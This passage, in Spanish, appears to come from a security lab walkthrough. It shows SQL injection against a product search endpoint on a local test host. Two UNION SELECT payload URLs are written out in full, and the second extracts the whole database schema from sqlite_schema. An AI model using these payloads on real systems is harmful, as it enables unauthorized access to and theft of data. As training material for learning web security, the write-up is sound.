 Modificamos ligeramente el ataque para que no aparezcan los productos. Para ello escribimos un producto que no exista seguro, como ***hfhdskfhskdjfhsjkfh***. En la barra de direcciones escribimos.
```
https://192.168.20.80:3000/rest/products/search?q=hfhdskfhskdjfhsjkfh')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_schema--
```

Como resultado obtenemos lo siguiente.

![columnas](../img/lab-25-D/202211232037.png)

Por último solo hay que reemplazar uno de los valores fijos ('1', '2', ...) con el nombre de la columna correcta, que es ***sql***. En la barra de direcciones escribimos.
(Nota: hemos sustituido ***'1'*** por ***sql***.)
```
https://192.168.20.80:3000/rest/products/search?q=hfhdskfhskdjfhsjkfh')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_schema--
```

Como resultado tenemos exfiltrado todo el esquema de la base de datos, ya que la primera columna se sustituye por las instrucciones SQL que se usaron para crear las tablas de dicha base de datos.
